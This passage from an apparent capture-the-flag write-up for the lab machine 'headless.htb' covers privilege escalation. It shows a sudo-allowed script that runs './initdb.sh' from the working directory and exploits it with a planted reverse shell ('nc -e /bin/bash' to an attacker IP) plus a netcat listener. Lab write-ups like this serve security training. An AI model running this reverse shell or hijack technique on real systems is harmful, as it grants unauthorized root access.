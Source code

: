 ## 4. Privilege Escalation

### 4.1 Privilege Escalation Method 1

Executing the command `sudo -l` we can see that we have permission to execute `/usr/bin/syscheck` as root.

{% code title="/usr/bin/syscheck" lineNumbers="true" %}
```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```
{% endcode %}

Analyzing this script, we can see that at line 19 it executes a script called initdb.sh in the current working directory so the next step is really simple.

We need to create a script called `initdb.sh` inside a writable directory with the next content:

{% code title="./initdb.sh" lineNumbers="true" %}
```bash
#!/usr/bin/bash
nc -e /bin/bash 10.10.14.3 6969
```
{% endcode %}

Once the script is created and execution right is set (`chmod +x initdb.sh`) we should start a listener in our machine with `nc` and execute `/usr/bin/syscheck` in headless.htb.

```
# our machine terminal
$ nc -lvnp 6969
listening on [any] 6969 ...

# SSH dvir terminal
-bash-5.2$ sudo /usr/bin/syscheck 
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.4G
System load average:  0.59, 0.79, 0.65
Database service is not running. Starting it...

# our machine terminal
$ nc -lvnp 6969
```